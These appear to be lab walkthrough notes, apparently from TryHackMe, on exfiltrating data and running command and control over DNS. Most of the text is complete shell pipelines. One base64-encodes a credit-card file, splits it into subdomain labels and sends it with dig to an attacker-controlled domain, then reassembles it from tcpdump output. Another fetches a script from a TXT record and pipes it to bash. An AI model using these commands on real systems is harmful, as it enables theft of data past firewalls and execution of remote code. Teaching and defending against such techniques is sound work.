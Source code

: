 # Exfiltration over DNS

There are many use case scenarios, but the typical one is when the firewall blocks and filters all traffic. We can 
pass data or `TCP/UDP` packets through a firewall using the `DNS` protocol, but it is important to ensure that the 
`DNS` is allowed and resolving domain names to IP addresses.

* An attacker registers a domain name, for example, [tunnel.com](conf.md) 
* The attacker sets up tunnel.com's NS record points to a server that the attacker controls.
* The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.
* The `DNS` request is sent through the local `DNS` server and is forwarded through the Internet.
* The attacker's authoritative `DNS` (malicious server) receives the `DNS` request.
* Finally, the attacker extracts the password from the domain name.

## DNS Data Exfiltration

* Get the required data that needs to be transferred.
* Encode the file using one of the encoding techniques.
* Send the encoded characters as subdomain/labels.
* Consider the limitations of the `DNS` protocol. Note that we can add as much data as we can to the domain name, but 
we must keep the whole URL under 255 characters, and each subdomain label ca not exceed 63 characters. If we do 
exceed these limits, we have to split the data and send more `DNS` requests.

Connect to the new thm attacker machine using ssh from the jump host:

    thm@jump-box$ ssh thm@attacker.thm.com

Capture DNS requests:
	
    thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
    tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes

Open a new terminal, ssh jump to victim2 from the jump host:

    thm@jump-box$ ssh thm@victim2.thm.com

Check the content of the `creds.txt` file:

    thm@victim2$ cat task9/credit.txt
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

Encode:

    thm@victim2$ cat task9/credit.txt | base64
    TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
    MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

Split the content into multiple DNS requests:

    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    TmFtZTogVEhNLXVzZX.att.tunnel.com
    IKQWRkcmVzczogMTIz.att.tunnel.com
    NCBJbnRlcm5ldCwgVE.att.tunnel.com
    hNCkNyZWRpdCBDYXJk.att.tunnel.com
    OiAxMjM0LTEyMzQtMT.att.tunnel.com
    IzNC0xMjM0CkV4cGly.att.tunnel.com
    ZTogMDUvMDUvMjAyMg.att.tunnel.com
    pDb2RlOiAxMzM3Cg==.att.tunnel.com

* `tr -d "\n"` - remove newlines.
* `fold -w18` - every 18 characters in a group
* `sed -r 's/.*/&.att.tunnel.com/'` - append the name server `att.tunnel.com` to every group

Now split every 18 characters with a dot `.` and add the name server:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.comthm@victim2:~$ 

From the victim2 machine, send the base64 data as a subdomain name via `dig` taking DNS limitations into account:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

Open a new terminal, jump to the attacker machine and check results using `tcpdump`:

    thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
    [sudo] password for thm: 
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    16:06:05.923936 IP (tos 0x0, ttl 64, id 47515, offset 0, flags [none], proto UDP (17), length 104)
        172.20.0.1.43174 > attacker.domain: 19394% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
    16:06:05.924355 IP (tos 0x0, ttl 64, id 47516, offset 0, flags [none], proto UDP (17), length 235)
        172.20.0.1.36730 > attacker.domain: 33745% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
    16:06:05.926140 IP (tos 0x0, ttl 64, id 28057, offset 0, flags [DF], proto UDP (17), length 69)
        attacker.57010 > 172.20.0.1.domain: 53575+ PTR? 1.0.20.172.in-addr.arpa. (41)
    16:06:05.926243 IP (tos 0x0, ttl 64, id 47517, offset 0, flags [DF], proto UDP (17), length 123)
        172.20.0.1.domain > attacker.57010: 53575 NXDomain* 0/1/0 (95)

Clean and restore the received data:

    thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

## C2 communications over DNS

In victim2, create a `script.sh` in `/tmp`:

    thm@victim2:~$ cd /tmp/
    thm@victim2:/tmp$ nano script.sh

The code for `script.sh`:

    #!/bin/bash 
    ping -c 1 test.thm.com

Encode the script:

    thm@victim2:~$ cat /tmp/script.sh | base64
    IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K

Add it as a `TXT` `DNS` record to the `tunnel.com` domain using the web interface provided: http://MACHINE_IP/

Confirm it was added successfully:

    thm@victim2:~$ dig +short -t TXT script.tunnel.com
    "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

Run the script (clean using `tr` and deleting any double quotes `"`):

    thm@victim2:~$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    PING test.thm.com (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
    
    --- test.thm.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms

Get the flag:

    thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash

